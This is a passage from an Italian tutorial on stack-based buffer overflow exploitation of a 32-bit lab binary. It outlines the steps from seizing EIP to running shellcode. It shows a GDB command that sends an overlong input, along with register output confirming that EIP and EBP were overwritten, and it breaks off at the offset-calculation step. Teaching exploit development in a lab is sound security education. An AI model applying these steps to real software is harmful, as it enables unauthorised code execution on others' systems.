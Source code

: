 Passi:

1. Prendere il controllo del registro EIP
2. Determinare la lunghezza del payload
3. Identificare eventuali caratti malevoli
4. Generazione del payload
5. Trovare l'indirizzo di ritorno
6. Esecuzione

## Prendere il controllo del registro EIP

Uno degli aspetti più importanti di un buffer overflow basato sullo stack è quello di tenere sotto controllo il puntatore all'istruzione (EIP), in modo da potergli dire a quale indirizzo deve saltare. In questo modo l'EIP punterà all'indirizzo da cui parte il nostro shellcode e la CPU lo eseguirà.

Possiamo eseguire i comandi in GDB usando Python, che ci serve direttamente come input.

```shell
$ gdb -q bow32
(gdb) run $(python -c "print '\x55' * 1200")
```

EIP e' stato sovrascritto. Se non dovesse essere cosi, aumentiamo la quantita' di caratteri.

```shell
(gdb) info registers

eax            0x1	1
ecx            0xffffd6c0	-10560
edx            0xffffd06f	-12177
ebx            0x55555555	1431655765
esp            0xffffcfd0	0xffffcfd0
ebp            0x55555555	0x55555555		# <---- EBP overwritten
esi            0xf7fb5000	-134524928
edi            0x0	0
eip            0x55555555	0x55555555		# <---- EIP overwritten
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```

Ciò significa che dobbiamo accedere in scrittura all'EIP. Questo, a sua volta, permette di specificare a quale indirizzo di memoria l'EIP deve saltare. Tuttavia, per manipolare il registro, abbiamo bisogno di un numero esatto di 'U' fino all'EIP, in modo che i 4 byte successivi possano essere sovrascritti con l'indirizzo di memoria desiderato.

### Determinare la lunghezza dell'offset

L'offset viene utilizzato per determinare quanti byte sono necessari per sovrascrivere il buffer e quanto spazio abbiamo a disposizione per il nostro shellcode.
